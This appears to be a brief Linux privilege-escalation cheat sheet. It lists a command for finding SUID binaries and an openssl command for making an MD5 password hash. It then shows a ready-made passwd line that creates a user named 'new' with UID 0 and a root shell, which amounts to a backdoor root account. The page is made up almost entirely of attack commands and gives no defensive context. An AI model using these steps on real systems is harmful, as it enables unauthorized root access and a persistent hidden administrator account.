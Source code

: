## Finding SUID Binaries
```
find / -perm -u=s -type f 2>/dev/null
```
## Create Salt Passwd
```
openssl passwd -1 -salt [salt] [password]

salt:new passwd:123

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```
